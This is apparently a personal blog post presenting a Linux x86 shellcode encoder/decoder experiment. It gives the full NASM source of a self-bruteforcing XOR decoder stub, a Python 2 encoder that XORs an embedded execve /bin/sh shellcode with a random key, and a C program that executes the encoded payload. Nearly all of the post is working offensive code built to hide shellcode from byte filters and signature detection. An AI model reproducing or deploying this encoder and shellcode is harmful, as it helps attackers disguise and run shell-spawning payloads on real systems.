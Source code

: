 ```yaml
---
title:  "Linux x86 one byte self bruteforcing shellcoder encoder/decoder"
---
```


I was looking  my old code and I found a fun shellcode encoder experiment I did some years ago. 


Basically, the encoder takes as input a shellcode, add a NOP opcode (0x90) in front of it, parses it's bytes and generate a set of bytes not used by the shellcode, then it picks one at random. Every shellcode's bytes is the xorred with this key.


The decoder perform a sort of self-bruteforcing: it loops every possible byte and try to XOR it against the first shellcode byte, if the opcode it's == 0x90, the decoder found the key and can start decoding it.


## decoder
```nasm
global _start

section .text
_start:
    jmp short shelly ; JMP CALL POP trick

stub:
    pop esi; address of shellcode in memory 
    xor ecx, ecx ; bytes counter 
    xor eax, eax ; eax = 0

findkey:
    inc ecx     ; ecx loops every possible byte. 
    push ecx    ; save ecx so it can be restored later
    xor cl, byte [esi] ; xor cl with the byte pointed by esi, in other words, with the shellcode byte
    cmp cl, 0x90 ; if cl != 0x90 
    pop ecx      ; restore ecx 
    jne findkey  ; try next byte
    
    ;ELSE key found
    
    mov al, cl ; al stores the correct key     
    mov al, cl 
    mov ah, cl 
    mov bx, ax 
    rol eax, 0x10 
    mov ax, bx  ; each byte of EAX is a the byte-key

    mov cl, len ; cl keeps the length of the shellcode and acts as LOOP decreasing counter 
    

    add esi, ecx ; esi stores the shellcode length 
    dec ecx      ; needed for handling the loop below 
decode:
    dec esi      
    dec esi 
    dec esi
    dec esi      ; in this way ESI points to the correct 4-bytes to decode

    dec ecx      
    dec ecx
    dec ecx      ; needed for handling the loop 

    mov ebx, eax        ; save the key  
    xor eax, [esi]      ; decrypt 4 bytes and save it in EAX
    push eax            ; save decrypted bye
    mov eax, ebx        ; restore the key 
    loop decode         ; decrypt until ECX = 0  
    call esp  ; execute the decrypted shellcode! 

shelly:
    call stub
   ; pase below the encoded bytes with encoder.py 0x28
   shellcode: db 0xb9,0x18,0xe9,0x79,0x41,0x06,0x06,0x5a,0x41,0x41,0x06,0x4b,0x40,0x47,0xa0,0xca,0x79,0xa0,0xcb,0x7a,0xa0,0xc8,0x99,0x22,0xe4,0xa9,0xb9,0xb9,0x29
    len equ $-shellcode 

```

## encoder
```python
#!/usr/bin/python2
import random 
import sys





shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

shellcode = '\x90' + shellcode


#generate a list of all possible bytes 

bytez = bytearray.fromhex(''.join(['%02x' % i for i in range(1,256)]))

#get a list of bytes used by the shellcode 
shellarray = bytearray(shellcode)

padding = (len(shellarray) % 4)
shellcode += '\x90' * padding  
keys =  set(bytez) - set(shellarray)
keys = bytearray(keys)
#select a random key 
key = random.choice(keys)
print("=" *10)
print "decryption key: " ,  hex(key)

print("=" *10)

encoded = ""
encoded2 = ""

#encrypt the shellcode with the random byte-key

for x in bytearray(shellcode) :
    y = x ^ key
    encoded += '\\x'
    encoded += '%02x' % y
    encoded2 += '0x%02x,' %y

#print to screen the encoded shellcode in two formats 
print("=" *10)
print("C version:\n\n ")
print '"' + encoded + '"' + "\n"
print("=" *10)
print("NASM version\n\n")
print encoded2 + '0x%02x' % key + "\n"
print("=" *10)
print 'Len: %d' % len(bytearray(shellcode))
```



## shellcode runner

```c
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\xeb\x35\x5e\x31\xc9\x31\xc0\x41\x51\x32\x0e\x80\xf9\x90\x59\x75\xf6\x88\xc8\x88\xc8\x88\xcc\x66\x89\xc3\xc1\xc0\x10\x66\x89\xd8\xb1\x1d\x01\xce\x49\x4e\x4e\x4e\x4e\x49\x49\x49\x89\xc3\x33\x06\x50\x89\xd8\xe2\xf0\xff\xd4\xe8\xc6\xff\xff\xff\xb9\x18\xe9\x79\x41\x06\x06\x5a\x41\x41\x06\x4b\x40\x47\xa0\xca\x79\xa0\xcb\x7a\xa0\xc8\x99\x22\xe4\xa9\xb9\xb9\x29";

                   
                  int main(void)
{
    fprintf(stdout,"Length: %d\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
    return 0;
}

```
